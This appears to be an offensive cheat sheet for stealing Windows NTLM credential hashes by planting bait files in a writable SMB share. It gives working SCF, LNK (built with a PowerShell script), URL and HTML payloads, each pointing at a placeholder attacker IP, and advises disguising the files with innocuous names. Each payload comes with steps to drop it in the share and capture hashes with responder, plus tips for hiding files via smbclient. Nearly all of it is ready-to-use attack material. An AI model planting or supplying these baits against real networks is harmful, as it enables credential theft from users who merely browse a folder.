 # Automatic on folder visit I: SCF Files
```
[Shell]
Command=2
IconFile=\\<ATTACKER_IP>\DesktopSettings.config
[Taskbar]
Command=ToggleDesktop
```
1. Put the contents into a non-suspicious file name like `@DesktopSettings.scf`
2. *If you created the file on a linux system,* use `unix2dos` to make it suitable for windows
3. Place the file in the writable SMB share (won't work if hidden)
4. Fire responder `responder -I eth0`

# Automatic on folder visit II: LNK Files
```powershell
$Output_For_Lnk = "$pwd\Database.lnk"
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut($Output_For_Lnk)
$lnk.TargetPath = "\\<ATTACKER_IP>\@DB"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Database"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```
1. Run the PowerShell script, it will save the `.lnk` file in the current working directory
2. Place the file in the writable SMB share (won't work if hidden)
3. Fire responder `responder -I eth0`

# Works when *Selected*: URL files
```
[InternetShortcut]
URL=file://<ATTACKER_IP>/@IEsettings
```
1. Put the contents into a non-suspicious file name like `IESettings.url`
2. *If you created the file on a linux system,* use `unix2dos` to make it suitable for windows
3. Place the file in the writable SMB share (won't work if hidden)
4. Fire responder `responder -I eth0`

# Must be Clicked to work II: HTML files
```
<img src="\\\\<ATTACKER_IP>\\img">
```
1. *If you created the file on a linux system,* use `unix2dos` to make it suitable for windows
2. Place the file in the writable SMB share (won't work if hidden)
3. Fire responder `responder -I eth0`

### Note
- you can hide any file when in an `smbclient` prompt using `setmode <FILE_NAM> +h`
- you can unhide any file when in an `smbclient` prompt using `setmode <FILE_NAM> -h`